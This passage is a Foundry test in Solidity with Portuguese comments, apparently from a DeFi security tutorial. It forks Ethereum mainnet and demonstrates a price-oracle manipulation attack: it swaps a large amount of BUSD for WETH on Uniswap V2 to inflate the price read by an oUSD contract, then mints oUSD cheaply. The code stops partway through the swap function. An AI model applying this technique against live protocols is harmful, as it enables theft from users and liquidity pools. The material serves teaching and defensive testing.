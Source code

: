 Código do ataque:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // Fork de um bloco específico
        vm.createSelectFork(MAINNET_RPC_URL,16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // Ataque ao oráculo
        // 0. Preço do ETH antes da manipulação
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore); 
        // Adquirir 1000000 BUSD para a própria conta
        uint busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. Comprar BUSD para WETH e manipular o oráculo
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. Preço do ETH após a manipulação
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter); 
        // 4. Criar oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this))/10e18); 
    }

    // Swap BUSD por WETH
    function swapBUSDtoWETH(uint amountIn, uint amountOutMin)
        public
        returns (uint amountOut)
    {   
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint[] memory amounts = router.swapExactTokensForTokens(
```